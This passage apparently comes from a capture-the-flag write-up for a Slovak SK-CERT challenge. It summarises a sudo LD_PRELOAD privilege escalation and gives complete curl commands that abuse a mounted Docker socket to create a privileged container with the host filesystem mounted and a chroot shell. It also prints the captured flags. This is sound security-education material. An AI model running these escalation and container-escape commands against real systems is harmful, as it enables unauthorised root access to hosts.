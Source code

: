 Successfully retrieved the second flag: 
```bash
SK-CERT{r007_u53r_pr3l04d3d_pr1v1l3635}
```

### Conclusion 

For this challenge, I needed to find a way to access root user secrets. After exploring the system, I discovered a privilege escalation vulnerability:
The 'calc' user can run /bin/netstat with sudo without requiring a password
The sudo configuration preserves the LD_PRELOAD environment variable (a serious security misconfiguration)
I exploited this vulnerability by:
Creating a malicious shared library in C that executes cat /root/flag.txt when loaded
Compiling the library on the remote system
Using *sudo LD_PRELOAD=/tmp/preload.so /bin/netstat* to execute the library with root privileges
This technique allowed me to run code as root and access the flag file in the root user's directory. The *LD_PRELOAD* environment variable is a known *privilege escalation* vector when preserved in sudo configurations.

### **Final escape**
The final challenge was to escape the docker container.

You are root, but it seems you are inside a Docker container. Can you escape somehow once again?

**Solution**

Docker socket is mounted into the container as `/run/docker/docker.sock` - this is not real docker but some FastAPI implementation (I guess for the CTF?), you can find `openapi.json` description and craft a container creation that would have the whole host root mounted into it - that gives you the flag, no need to actually make the container.

```shell
curl --unix-socket /run/docker/docker.sock http://localhost/openapi.json
```

See [`openapi.json`](https://github.com/lukaskuzmiak/cybergame.sk-2025-writeups/blob/main/JAILE/Solution/openapi.json) for contents.

```shell
curl --unix-socket /run/docker/docker.sock http://localhost/v1.48/containers/json
```

See [`containers.json`](https://github.com/lukaskuzmiak/cybergame.sk-2025-writeups/blob/main/JAILE/Solution/containers.json) for contents.

```shell
root@0751d0e17cd7:~# curl --unix-socket /run/docker/docker.sock -X POST \
>   -H "Content-Type: application/json" \
>   -d '{
>     "Image": "alpine",
>     "Cmd": ["chroot", "/mnt", "/bin/sh"],
>     "HostConfig": {
>       "Binds": ["/:/mnt"],
>       "Privileged": true
>     }
>   }' \
>   http://localhost/v1.48/containers/create?name=escape
{"message":"SK-CERT{4nd_7hat5_h0W_U_3scaP3_A_D0cK3r_c0nt41ne6}"}
```
